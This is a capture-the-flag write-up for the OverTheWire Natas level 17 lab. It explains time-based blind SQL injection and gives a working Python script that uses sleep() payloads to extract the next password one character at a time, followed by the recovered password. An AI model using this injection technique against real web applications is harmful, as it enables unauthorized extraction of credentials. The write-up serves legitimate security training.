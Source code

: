 The only difference is all output is commented out. When an SQL query does not give output but is injectable, the options left are sending data back over the network or time based attacks. As networking options are limited in Natas, let's try a time  attack. Basically we submit a bunch of boolean queries with sleep() functions in them, if any take a longer time to come back then the boolean tested true. We use this true result to determine the password one character at a time like the earlier levels.

Let's modify our python script from Level 15.

```python
import requests

user = 'natas17'
password = '8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw'
url = 'http://natas17.natas.labs.overthewire.org/index.php'
alphas  = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789'
passwd = ''

for i in range(0,32):
    for char in alphas:
        sql = {'username' : 'natas17" and password LIKE BINARY "' + passwd + char  + '%" and sleep(5) -- '}
        r= requests.post(url, auth=(user, password), data=sql)
        if (r.elapsed.seconds >= 10):
            passwd += char
            print(passwd)
            break
```
And we should get
```
x  
xv  
xvK  
xvKI  
xvKIq  
xvKIqD  
xvKIqDj  
xvKIqDjy  
xvKIqDjy4  
xvKIqDjy4O  
xvKIqDjy4OP  
xvKIqDjy4OPv  
xvKIqDjy4OPv7  
xvKIqDjy4OPv7w  
xvKIqDjy4OPv7wC  
xvKIqDjy4OPv7wCR  
xvKIqDjy4OPv7wCRg  
xvKIqDjy4OPv7wCRgD  
xvKIqDjy4OPv7wCRgDl  
xvKIqDjy4OPv7wCRgDlm  
xvKIqDjy4OPv7wCRgDlmj  
xvKIqDjy4OPv7wCRgDlmj0  
xvKIqDjy4OPv7wCRgDlmj0p  
xvKIqDjy4OPv7wCRgDlmj0pF  
xvKIqDjy4OPv7wCRgDlmj0pFs  
xvKIqDjy4OPv7wCRgDlmj0pFsC  
xvKIqDjy4OPv7wCRgDlmj0pFsCs  
xvKIqDjy4OPv7wCRgDlmj0pFsCsD  
xvKIqDjy4OPv7wCRgDlmj0pFsCsDj  
xvKIqDjy4OPv7wCRgDlmj0pFsCsDjh  
xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhd  
xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdP
```
Again we could do the optimisation where we find filtered characters first like we did in Level 16.
